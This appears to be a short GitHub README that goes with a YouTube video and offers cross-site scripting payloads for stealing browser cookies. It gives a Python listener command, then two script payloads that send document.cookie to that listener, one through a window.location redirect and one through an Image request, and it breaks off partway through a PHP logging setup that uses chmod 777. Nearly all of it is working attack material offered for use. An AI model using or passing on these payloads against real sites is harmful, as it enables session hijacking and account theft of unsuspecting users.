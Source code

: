 # Stealling_Cookies
in This file you will find every thing you need to Steal the cookies

All Payload that used in the Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies with out go another Window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- make the get.php:

2- make log.txt

3- give all Privileges:

YasserREED> sudo chmod 777 log.txt


